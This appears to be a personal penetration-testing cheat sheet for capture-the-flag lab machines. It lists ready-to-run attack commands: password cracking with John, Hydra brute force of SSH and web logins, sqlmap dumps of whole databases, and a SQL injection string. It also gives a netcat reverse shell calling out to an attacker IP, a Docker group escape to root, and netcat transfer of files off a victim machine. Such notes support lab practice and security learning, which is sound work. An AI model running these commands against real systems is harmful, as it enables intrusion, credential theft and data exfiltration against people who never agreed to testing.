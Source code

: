 ### Nmap
`nmap -sC -sV 10.10.105.34`
`nmap --script vuln ip -vv`
### No ICMP
`nmap -Pn 10.10.105.34`

### Generates hash for /etc/passwd(user should already exist)
`openssl passwd -1`

### for /etc/shadow
`mkpasswd -m sha-512 password`
`snap run john-the-ripper --wordlist=~/rockyou.txt hash`

### John
`/snap/bin/john-the-ripper.gpg2john`
`./zip2john 8702.zip > hash`  
`ssh2john.py id_rsa`

### Awk
`awk 'length($0)==10' rockyou.txt`

### Stegography 
`steghide extract -sf`
`stegcracker cute-alien.jpg ~/rockyou.txt`

### Hydra
`hydra -l <username> -P <path to wordlist> <IP> ssh`
`hydra -l molly -P rockyou.txt 10.10.57.111 http-post-form "/login:username=molly&password=^PASS^:incorrect" -V`

### Reminder
`nikto`

### Wfuzz
`wfuzz -c -z file,dates.list -d "date=FUZZ" -u http://10.10.181.57/site-log.php --hc 404`

`sshpass -p !4u2tryhack ssh username@host.example.com`

### Words on web page
`cewl`  

### Sqlmap
`sqlmap -r req.txt -p blood_group -D blood --dump-all`
`sqlmap -r burp.txt --tamper=space2comment --dump-all --dbms sqlite`

### Stable rev shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.125 4444 >/tmp/f`

### Stabilize shell
`python3 -c "import pty;pty.spawn('/bin/bash')"`
`export TERM=xterm`
`//CTRL + Z to background`
`stty raw -echo;fg` 

### If docker in groups (may help may not)
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

### Disclose subdomains(@dns-server)
`dig axfr hipflasks.thm @10.10.113.230`

### Mount samba share under username
`sudo mount -t cifs -o username=ubuntu //10.10.7.87/sambashare /media/samba`

### Simple SQLi
`' OR '1'='1' --`

### SQL list
https://github.com/payloadbox/sql-injection-payload-list.git

### NFS
`showmount --exports 10.10.41.139`
`mount 10.10.41.139:/opt/conf /media/nfs`

### Rsync
`rsync --list-only rsync://rsync-connect@10.10.41.139`

### GPG
`gpg --import key.asc`
`gpg --decrypt file.pgp`

### Samba
`smbclient -NL 10.10.215.0`
`smbclient -N //10.10.215.0/VulnNet-Enterprise-Anonymous`

### Netcat recv and send
`nc -q 1 -l -p 7777 > runme`
`nc -q 1 10.9.3.125 7777 < /home/catlover/runme`

### Openssl & GPG
`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`
`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

`gpg --symmetric --cipher-algo CIPHER message.txt`
`gpg --output original_message.txt --decrypt message.gpg`

### Subdomains search (i.e. *(www|admin).site.com)
`ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.site.com -fw 1`

### Upgrade to bash ([READ](https://0xffsec.com/handbook/shells/full-tty/))
`SHELL=/bin/bash script -q /dev/null`
